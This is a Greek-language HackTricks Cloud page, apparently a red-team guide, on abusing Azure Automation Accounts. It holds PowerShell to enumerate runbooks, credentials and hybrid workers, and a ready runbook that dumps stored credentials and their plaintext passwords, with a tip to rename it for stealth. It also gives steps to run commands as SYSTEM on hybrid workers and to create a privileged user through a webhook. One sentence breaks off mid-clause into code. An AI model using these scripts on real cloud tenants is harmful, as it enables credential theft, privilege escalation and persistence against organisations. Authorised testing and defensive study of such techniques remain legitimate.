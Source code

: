 # Az - Λογαριασμός Αυτοματισμού

<details>

<summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Βασικές Πληροφορίες

[Από τα έγγραφα:](https://learn.microsoft.com/en-us/azure/automation/overview) Ο Azure Automation παρέχει έναν υπηρεσία βασισμένη στο cloud για τον αυτοματισμό, τις ενημερώσεις του λειτουργικού συστήματος και τη διαμόρφωση που υποστηρίζει τη συνεπή διαχείριση σε όλο το Azure και τα μη-Azure περιβάλλοντα. Περιλαμβάνει αυτοματισμό διαδικασιών, διαχείριση διαμόρφωσης, διαχείριση ενημερώσεων, κοινόχρηστες δυνατότητες και δυνατότητες ανεξάρτητων συστημάτων.

Αυτά είναι σαν "**προγραμματισμένες εργασίες**" στο Azure που θα σας επιτρέψουν να εκτελέσετε πράγματα (ενέργειες ή ακόμα και σενάρια) για να **διαχειριστείτε**, ελέγξετε και διαμορφώσετε το **περιβάλλον Azure**.

### Λογαριασμός Run As

Όταν χρησιμοποιείται ο **Λογαριασμός Run As**, δημιουργεί μια εφαρμογή Azure AD με αυτο-υπογεγραμμένο πιστοποιητικό, δημιουργεί έναν **υπηρεσιακό προσδιοριστή** και αναθέτει τον ρόλο **Contributor** για τον λογαριασμό στην **τρέχουσα συνδρομή** (πολλά προνόμια).\
Η Microsoft συνιστά να χρησιμοποιείται μια **Διαχειριζόμενη Ταυτότητα** για τον Λογαριασμό Αυτοματισμού.

{% hint style="warning" %}
Αυτό θα **αφαιρεθεί στις 30 Σεπτεμβρίου 2023 και θα αντικατασταθεί από Διαχειριζόμενες Ταυτότητες**.
{% endhint %}

## Runbooks & Jobs

Τα **Runbooks** σας επιτρέπουν να εκτελέσετε αυθαίρετο κώδικα PowerShell. Αυτό μπορεί να **καταχραστείται από έναν επιτιθέμενο** για να κλέψει τα δικαιώματα του **συνδεδεμένου προσδιοριστή** (αν υπάρχει).\
Στον **κώδικα** των **Runbooks** μπορείτε επίσης να βρείτε **ευαίσθητες πληροφορίες** (όπως διαπιστευτήρια).

Εάν μπορείτε να **διαβάσετε** τις **εργασίες**, κάντε το, καθώς περιέχουν την **έξοδο** της εκτέλεσης (πιθανές **ευαίσθητες πληροφορίες**).

Μεταβείτε σε `Λογαριασμοί Αυτοματισμού` --> `<Επιλέξτε Λογαριασμό Αυτοματισμού>` --> `Runbooks/Εργασίες/Ομάδες υβριδικών εργαζομένων/Εργασίες παρακολούθησης/διαπιστευτήρια/μεταβλητές/πιστοποιητικά/συνδέσεις`

### Υβριδικός Εργαζόμενος

Ένα Runbook μπορεί να εκτελεστεί σε ένα **container μέσα στο Azure** ή σε έναν **υβριδικό εργαζόμενο** (μη-azure μηχάνημα).\
Ο **Πράκτορας Αναλυτικής Καταγραφής** εγκαθίσταται στον εικονικό υπολογιστή για να τον καταχωρίσει ως υβριδικό εργαζόμενο.\
Οι εργασίες του υβριδικού εργαζομένου εκτελούνται ως **SYSTEM** στα Windows και ως λογαριασμός **nxautomation** στο Linux.\
Κάθε Υβριδικός Εργαζόμενος είναι καταχωρημένος σε μια **Ομάδα Υβριδικών Εργαζομένων**.

Επομένως, εάν μπορείτε να επιλέξετε να εκτελέσετε ένα **Runbook** σε έναν **Υβριδικό Εργαζόμενο Windows**, θα εκτελέσετε **αυθαίρετες εντολές** μέσα σε ένα εξωτερικό μηχάνημα ως **System** (καλή τεχνική περιστροφής).

## Κατάσταση Διαμόρφωσης (SC) Παραβίασης

[Από τα έγγραφα:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Η Κατάσταση Διαμόρφωσης Azure Automation είναι μια υπηρεσία διαχείρισης διαμόρφωσης Azure που σας επιτρέπει να γράψετε,
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Δημιουργία ενός Runbook

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Εξαγωγή διαπιστευτηρίων και μεταβλητών που έχουν καθοριστεί σε έναν λογαριασμό αυτοματισμού χρησιμοποιώντας ένα Run Book

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Μπορείτε να κάνετε το ίδιο πράγμα τροποποιώντας έναν υπάρχοντα Run Book, και από τον ιστότοπο της κονσόλας.
{% endhint %}

### Βήματα για την Ρύθμιση Αυτοματοποιημένης Δημιουργίας Χρήστη με Υψηλά Προνόμια

#### 1. Αρχικοποίηση Λογαριασμού Αυτοματισμού
- **Απαιτείται Ενέργεια:** Δημιουργήστε έναν νέο Λογαριασμό Αυτοματισμού.
- **Συγκεκριμένη Ρύθμιση:** Βεβαιωθείτε ότι η επιλογή "Δημιουργία λογαριασμού Azure Run As" είναι ενεργοποιημένη.

#### 2. Εισαγωγή και Ρύθμιση Runbook
- **Πηγή:** Κατεβάστε το δείγμα runbook από το [αποθετήριο GitHub του MicroBurst](https://github.com/NetSPI/MicroBurst).
- **Απαιτούμενες Ενέργειες:**
- Εισαγάγετε το runbook στον Λογαριασμό Αυτοματισμού.
- Δημοσιεύστε το runbook για να γίνει εκτελέσιμο.
- Συνδέστε ένα webhook στο runbook, ενεργοποιώντας εξωτερικές ενεργοποιήσεις.

#### 3. Ρύθμιση Ενότητας AzureAD
- **Απαιτείται Ενέργεια:** Προσθέστε την ενότητα AzureAD στον Λογαριασμό Αυτοματισμού.
- **Επιπλέον Βήμα:** Βεβαιωθείτε ότι όλες οι Ενότητες Αυτοματισμού Azure είναι ενημερωμένες στις τελευταίες εκδόσεις τους.

#### 4. Ανάθεση Δικαιωμάτων
- **Ρόλοι προς Ανάθεση:**
- Διαχειριστής Χρηστών
- Κάτοχος Συνδρομής
- **Στόχος:** Αναθέστε αυτούς τους ρόλους στον Λογαριασμό Αυτοματισμού για τα απαραίτητα προνόμια.

#### 5. Επίγνωση Πιθανής Απώλειας Πρόσβασης
- **Σημείωση:** Να είστε ενήμεροι ότι η ρύθμιση τέτοιου αυτοματισμού μπορεί να οδηγήσει στην απώλεια ελέγχου της συνδρομής.

#### 6. Ενεργοποίηση Δημιουργίας Χρήστη
- Ενεργοποιήστε το webhook για να δημιουργήσετε έναν νέο χρήστη αποστέλλοντας ένα αίτημα POST.
- Χρησιμοποιήστε το παρεχόμενο PowerShell script, βεβαιωθείτε ότι αντικαθιστάτε το `$uri` με το πραγματικό URL του webhook και ενημερώστε το `$AccountInfo` με το επιθυμητό όνομα χρήστη και κωδικό πρόσβασης.
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## Αναφορές

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
